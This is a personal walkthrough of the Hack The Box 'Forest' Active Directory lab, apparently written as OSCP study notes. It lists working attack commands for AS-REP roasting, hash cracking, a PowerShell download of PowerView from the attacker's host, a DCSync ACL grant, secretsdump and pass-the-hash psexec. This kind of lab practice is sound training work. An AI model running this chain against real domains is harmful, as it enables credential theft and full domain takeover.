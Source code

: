 # Walkthrough
Name: Forest
Date: 03/06/2022
Difficulty: Easy / User Average: Medium
Description: Retired Staff Pick Active Directory machine
Better Description:  
Goals: OSCP Prep, revise DNS, LDAP, SMB, RPC enumeration; Revise AD attacks from THM stuff.
Learnt: Habits must change in note taking, I doing ok and the next improvements aren't far away just another 50 machines away.

This is mainly a hand hold through this machine that will be redone at a later date to test myself. Need to revise and add to cheatsheets also while doing this it pulled up note taking vs writing habits. I will have on the same day uploaded another AD machine from HTB without Ippsec. Basically I love vim too much should use Obsidian more. Note then write stuff.

## Recon

Ran some of the recon weeks ago while reading, coding and hacking, still have some to do. Regardles with the original IP I started enumeration with a ping to check Time to Live field to do OS detection and see if the box responded to ICMP packets:
![ping](Screenshots/ping.png)

`TTL for Windows is 128`, but also accept ICMP packets so no need to `-Pn` flag for nmap.

Went through my [SMB Cheatsheet](https://github.com/7RU7H/Archive/blob/main/Recon/Active-Information-Gathering/SMB/SMB-Recon-Cheatsheet.md) and found using rcp null attack. I had read about it from a cheatsheet and used it in a previous machine and was as amazed as when I learnt about anonymous FTP over a year ago. I am easily pleased.

```bash
rpcclient -U "" -N $IP
```

![rpc](Screenshosts/rcpenum.png)
![rpc1](Screenshosts/rcpenum-one.png)
![rpc2](Screenshosts/rcpenum-two.png)

The above was some of the stuff I tried, found another cheatsheet to added to my current RPC Cheatsheet, while nmap ran:
```bash
nmap --script=ldap-search -p 389 --script-args ldap.maxobjects=-1 -oA nmap/ldap-search 10.129.95.210
```
Then tried some the ldapsearch from [LDAP Cheatsheet]()

```bash
ldapsearch -LLL -x -H ldap://htb.local -b '' -s base '(objectclass=*)' 
```
Lots of information and Ippsec reminding the wonders on wildcards and filtering. Changing `'(objectClass=Person)'`

```bash
ldapsearch -LLL -x -H ldap://htb.local -b 'DC=htb,DC=local' '(objectClass=Person)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > users.txt
```
I noticed the `HTB\lucinda, HTB\svc-alfresco` User and services and checked them out.

Created a list of Users and Service Principle Names from enum4linux output, while considered how to extract information from extensive LDAP search output.
```bash
cat enumFourLinux.txt | grep "has member" | awk -F ' ' '{ print $8 }' | grep HTB > usersPlusSPNs.txt
```

## Exploit

Watched some Ippsec to learn mote and add more to my LDAP cheatsheet, then paused video to make users.txt; for password spraying. Deleting the excess machine accounts so as to not waste time password spraying with crackmapexec.
![cme-smb-pass-pol](Screenshots/cme-smb-pass-pol.png)
The account lockout threshold:0 means Bruteforcable

Using Ippsec knwoledge as a baseline my longawaited [Impacket cheatsheet]() started to take shape over the course today. Learnt about `GetNPUsers.py` and how for users that do not require Kerberos preauthentiation it can grab those hashes. And continued to follow along, while went back and refactored an idea about rule base methodologies as more advanced cheetsheat that could be used as a opposite to YARA rules, for red teaming plus some AI.

```bash
GetNPUSers.py  -dc-ip $IP -request '$domain/' -format hashcat
```
Then cracked with:
```bash
hashcat hash -m 18200 /usr/share/wordlists/rockyou.txt  
```
![svc-cracked](Screenshots/svc-alfresco.png)

Then use the credentials to enumerate smb shares

![cme-share-enum](Screenshots/cme-enum-shares.png)

## Foothold

Then evil-winrm with those credentials onto the machine.

![user](Screenshots/user.png)

Then researched loads of impacket use cases, till I felt like I had a better idea about using it, then learnt how to setup a smb share with impacket-smbserver following along with the video:

```bash
impacket-smbserver scriptserver $(pwd) -smb2support -user user -password pass
```
On remote:
```powershell
$pass = convertto-securestring 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root \\$IP
```

## PrivEsc

I instead of Bloodhound at first wanted to use [ADAPE](https://github.com/hausec/ADAPE-Script) and [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). Also general AD PrivEsc manually to add to me very lack luster Active Directory Privilege Escalation Cheastsheet.  I tried setting up an smbserver but I did not work then went to the trusty

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$ip:$port/powerview.ps1','C:\Users\svc-alfresco\Desktop\powerview.ps1')"
```

ADAPE requires `set-executionpolicy bypass`, which `svc-alfresco` user can't set. I tried I powerview.ps1 and then remember the pain of trying to get sharphound to work in the earlier part of this year to no success so also tried that. 
```bash
ulimit -n 40000 
# THEN
sudo neo4j console
# THEN goto localhost:7474
```
Default credentials
USER: neo4j
PASS: neo4j

```bash
cd /tmp; curl https://github.com/BloodHoundAD/SharpHound/releases/download/v1.0.4/SharpHound-v1.0.4.zip -oL SharpHound.zip

```
Use the same file transfer method as before
```powershell
.\SharpHound.exe -c all
```

```bash
bloodhound --no-sandbox
```
Following along with Ippsec after the agony of SharpHound maddness. I needed to get smbserver to work to transfer host a server. So went back to retry making smbserver. It felt amazing making that finally work. Wow.
Transfered the sharphound output zip file and dragged it into Bloodhound, watch some more Ippsec for how to go where to look - definately need to improve in this respect as to my person maentyal mapping to the groupings and how to fid weak points.

![bh](Screenshots/bloodhound.png)

Basically TL;DR/watch Ippsec explain is that the Account Operators Group can make accounts and svc-alfresco is part of that group and there is the Exchange server connected to it that the Account.
```powershell
net user $user $password /add /domain
net group "Exchange Windows Permissions" /add $user
```
My Bloodhound did not represent the chain to DC from Exchange Windows Permissions group, so I used the `Reachable Highest Value Targets` query here
This is not correct as some weird occured; following along 
![bh3](Screenshots/bh-weird.png)

![bh2](Screenshots/bh-abuse.png)

And the full glory of the Forest Machine and Bloodhound:

![bh4](Screenshots/fullglory.png)

Cool thing I already uploaded powerview! 

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
# What Bloodhound suggested, it did not work.
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
# Actual path: get the dev branch of PowerView
# add the the end of the git clone -b dev
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity wallace -Rights DCSync
# impacket tool secretsdump
impacket-secretsdump htb/$user:password@ip
crackmapexec smb $ip -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.95.210

```



